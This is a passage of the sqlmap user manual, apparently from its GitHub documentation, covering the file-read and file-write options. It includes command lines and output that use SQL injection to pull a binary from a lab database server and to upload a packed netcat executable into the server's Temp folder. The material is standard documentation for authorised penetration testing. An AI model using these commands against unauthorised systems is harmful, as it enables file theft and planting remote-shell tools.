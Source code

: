 ## File system access

### Read a file from the database server's file system

Option: `--file-read`

It is possible to retrieve the content of files from the underlying file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly. 

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a Microsoft SQL Server 2005 target to retrieve a binary file:

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

### Upload a file to the database server's file system

Options: `--file-write` and `--file-dest`

It is possible to upload a local file to the database server's file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly. 

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a MySQL target to upload a binary UPX-compressed file:

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```